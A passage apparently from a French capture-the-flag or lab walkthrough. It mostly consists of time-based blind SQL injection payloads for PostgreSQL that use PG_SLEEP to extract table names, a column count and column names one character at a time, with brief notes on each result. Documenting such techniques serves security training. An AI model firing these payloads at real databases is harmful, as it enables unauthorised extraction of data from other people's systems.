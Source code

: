 ```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 0)::text,3,1))=ASCII('e') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

Le nom de la première table est "users".

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 1)::text,1,1))=ASCII('s') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 1)::text,2,1))=ASCII('e') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT tablename FROM pg_tables WHERE schemaname = 'public' LIMIT 1 OFFSET 1)::text,3,1))=ASCII('c') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

Le nom de la seconde table est "secrets".

Récupération du nombre de colonnes de la table "secrets" :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT COUNT(a.attname) FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped)::text,1,1))=ASCII('3') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

La table "secrets" possède trois colonnes.

Récupération des noms des colonnes :

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 0)::text,1,1))=ASCII('i') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 0)::text,2,1))=ASCII('d') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

La première colonne se nomme "id".

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT a.attname FROM pg_catalog.pg_attribute a JOIN pg_catalog.pg_class c ON a.attrelid = c.oid JOIN pg_catalog.pg_namespace n ON c.relnamespace = n.oid WHERE n.nspname = current_schema() AND c.relname = 'secrets' AND a.attnum > 0 AND NOT a.attisdropped ORDER BY a.attnum LIMIT 1 OFFSET 1)::text,1,1))=ASCII('u') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```
